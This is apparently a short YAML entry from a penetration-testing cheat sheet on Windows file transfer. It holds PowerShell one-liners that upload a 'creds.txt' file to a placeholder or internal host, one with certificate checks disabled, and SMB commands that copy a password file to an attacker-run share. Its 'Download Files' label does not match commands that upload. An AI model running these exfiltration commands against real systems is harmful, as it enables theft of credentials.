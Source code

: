 ```yaml
---
functions:
  file-transfer:
    - description: Download Files on Windows
      code: |
        +++++++++++POWERSHELL+++++++++++
     	powershell -c (New-Object System.Net.WebClient).UploadFile('http://<ip>:<port>', 'creds.txt')
  		powershell -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(New-Object System.Net.WebClient).UploadFile('https://10.0.0.4:8000', 'creds.txt')

        +++++++++++SMB+++++++++++
        SERVER: impacket-smbserver "share" . -smb2support
        CLIENT: (1) net use \\192.168.119.159\share   (2)  copy "mypass.txt" \\192.168.119.159\share\
---
```

